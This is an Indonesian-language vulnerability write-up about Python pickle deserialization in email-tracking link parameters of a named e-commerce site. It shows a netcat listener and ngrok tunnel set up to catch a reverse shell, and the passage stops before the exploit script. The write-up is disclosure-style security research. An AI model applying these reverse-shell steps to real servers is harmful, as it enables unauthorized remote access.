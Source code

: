 saya memperhatikan semua link yang ada pada email tersebut meggunakan https://explorer.tokopedia.com kemudian saya mencoba membuka salah satu link yaitu : 

```
https://explorer.tokopedia.com/v1/emailclick?em=1337%40gmail.com&user_id=S%27%5Cx8d%5Cxe9%5Cxd1Y%5Cxdb%5Cx10%5Ct%5Cx92%5Cxd2%5Cx10%5Cx80%5Cxd7%5Cx9d%5Cxa4%5Cxc7%5Cx9eM_%2A+%5Cxc6%2C%5Cxb6%5Cx91%5Cx98%5Cxe0%5Cxben%5Cxfe%5Cxda%5Cxfa%5Cxf4%27%0Ap0%0A.&d=S%27G%5Cxdfy%5Cxf5%5Cx00%5Cxe2G%5Cxe9F%5Cx91Gi%5Cx8d%5Crr%5Cxeb%5Cxf9%5Cxb6%5Cx87%5Cx99%60%27%0Ap0%0A.&ts=1536374957&cid=S%27%5Cxdd%5Cxe2%5Cx93%5Cx93i%5Cx0b%5Cx00%3Dd%5Cxac%24%2C%5Cxfah%5Cx91%5Cxc9Cz%5Cxc9%5Cxc65%5Cxef%5Cx81%5Cx04%5Cx84%5Cxc4-%5Cxaf%5Cxa44%5Cxe2%5Cx10ee%22%5Cxeb%5Cx0b%5Cx16N%3C%5Cxec%5Cx16%2Cs%5Cxa8%5Cxe3%5Cxaf.%5Cxe4A%5Cxc5Q%27%0Ap0%0A.&ut=l&moeclickid=5b93333e7da87848b22e8659_F_T_EM_AB_0_P_0_L_0ecli48&app_id=S%27%60%5Cx8ele_%5Cx8ao%5Cxb4%5Cx9dJ%5Cr%5Cx01%5Cxee%5Cx80%5Cxbc%5Cx8ck%5Cxd7%5Cx83%2FUk%60%5Cxfe%5Cx16%5Cxd7+%5Cxa5%5Cx90%5D%5Cxda%5Cx93%27%0Ap0%0A.&pl=A&c_t=ge&rlink=https://tokopedia.link/EBxQm0a00P?$deep_link=true%26utm_source=7teOvA%26utm_medium=email%26utm_campaign=co_OFS_BR_982018_Compilation%26utm_content=C3
```

Ada beberapa parameter yang menarik karena setelah saya lakukan url-decode ternyata yang dikirim adalah dalam bentuk Pickle String Python jadi karena seperti yang kita ketahui pada dokumentasi python sendiri Pickle sudah di <a href="#warning">warning</a> agar tidak menerima input dari user karena dapat di-abuse untuk mendapatkan akses kepada sistem 

```
user_id=S%27%5Cx8d%5Cxe9%5Cxd1Y%5Cxdb%5Cx10%5Ct%5Cx92%5Cxd2%5Cx10%5Cx80%5Cxd7%5Cx9d%5Cxa4%5Cxc7%5Cx9eM_%2A+%5Cxc6%2C%5Cxb6%5Cx91%5Cx98%5Cxe0%5Cxben%5Cxfe%5Cxda%5Cxfa%5Cxf4%27%0Ap0%0A.
d=S%27G%5Cxdfy%5Cxf5%5Cx00%5Cxe2G%5Cxe9F%5Cx91Gi%5Cx8d%5Crr%5Cxeb%5Cxf9%5Cxb6%5Cx87%5Cx99%60%27%0Ap0%0A.
cid=S%27%5Cxdd%5Cxe2%5Cx93%5Cx93i%5Cx0b%5Cx00%3Dd%5Cxac%24%2C%5Cxfah%5Cx91%5Cxc9Cz%5Cxc9%5Cxc65%5Cxef%5Cx81%5Cx04%5Cx84%5Cxc4-%5Cxaf%5Cxa44%5Cxe2%5Cx10ee%22%5Cxeb%5Cx0b%5Cx16N%3C%5Cxec%5Cx16%2Cs%5Cxa8%5Cxe3%5Cxaf.%5Cxe4A%5Cxc5Q%27%0Ap0%0A.
app_id=S%27%60%5Cx8ele_%5Cx8ao%5Cxb4%5Cx9dJ%5Cr%5Cx01%5Cxee%5Cx80%5Cxbc%5Cx8ck%5Cxd7%5Cx83%2FUk%60%5Cxfe%5Cx16%5Cxd7+%5Cxa5%5Cx90%5D%5Cxda%5Cx93%27%0Ap0%0A.
```

`Parameter yang vulnerable adalah : user_id , d , cid , app_id`

Hasil decode dari parameter `user_id` adalah : 

```
S'\x8d\xe9\xd1Y\xdb\x10\t\x92\xd2\x10\x80\xd7\x9d\xa4\xc7\x9eM_* \xc6,\xb6\x91\x98\xe0\xben\xfe\xda\xfa\xf4'
p0
.
```

Dari melihat struktur data tersebut sudah bisa ditebak bahwa itu pickle strings yang akan dikirimkan melalui parameter yang vulnerable tersebut, dengan melakukan modifikasi pada pickle strings yang dikirimkan saya bisa mendapatkan reverse shell untuk akses server tokopedia secara penuh.

untuk melakukan reverse shell kita dapat membuat listener menggunakan nc `nc -lvp 8080`, karena ip address saya tidak memiliki public ip maka saya menggunakan <a href="https://ngrok.com">ngrok</a> untuk melakukan tuneling dengan `./ngrok.exe tcp 8080` kemudian kita dapat mengakses ngrok pada `localhost:4040` untuk mendapatkan public address yang di assign ngrok.

untuk membuat payload reverse shell dengan cPickle saya membuat script exploit python dibawah ini, kemudian output dari script ini dimasukan kedalam salah satu parameter yang vulnerable diatas yaitu `user_id | d | cid | app_id` salah satu parameter saja.
